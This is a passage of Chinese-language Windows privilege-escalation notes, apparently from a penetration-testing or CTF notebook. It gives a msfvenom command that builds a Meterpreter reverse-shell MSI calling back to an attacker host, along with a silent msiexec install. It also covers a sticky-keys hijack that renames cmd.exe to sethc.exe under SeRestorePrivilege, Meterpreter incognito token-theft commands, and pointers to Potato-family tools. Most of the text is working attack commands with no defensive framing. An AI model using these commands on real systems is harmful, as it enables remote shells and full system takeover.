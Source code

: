 使用`msf`来创建恶意MSI

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.100.10 lport=4444 -f msi -o eval.msi
```

执行MSI

```bash
msiexec /quiet /qu /i eval.msi
# /quiet    在安装期间禁止向用户发送任何消息
# /qu     无GUi
# /i     常规安装
```

### SeRestorePrivilege权限滥用

```bash
# 查看用户权限
whoami /priv 
```

若用户有 `SeRestorePrivilege`权限，则可以任意修改注册表以及文件，可以用`IFEO映像劫持`等进行提权

这里我们通过修改文件名来提权

```bash
cd c:\\Windows\\system32
ren sethc.exe sethc.bak
ren cmd.exe sethc.exe
```

之后锁定用户，按5次shift便可以提权

### 令牌窃取

**条件**：一般需要用户具有`SeImpersonatePrivilege`和`SeAssignPrimaryToken` / `SeIncreaseQuotaPrivilege` 提权，而这两个提权一般为系统管理员、网络管理员和系统服务账户（如IIS、MSSQL等）

 #### SharpToken进行令牌窃取

[SharpToken](F:\ctfTools\SharpToken-访问令牌窃取工具)

#### MSF进行令牌窃取

```bash
load incognito # 加载incognito模块
list_tokens -u # 列出所有访问令牌
impersonate_token "NT AUTHORITY\SYSTEM" # 窃取 NT AUTHORITY\SYSTEM 用户的令牌
steal_token <PID> # 从指定的进程窃取令牌
```

### Potato家族提权

#### SweetPotato

工具 https://github.com/uknowsec/SweetPotato
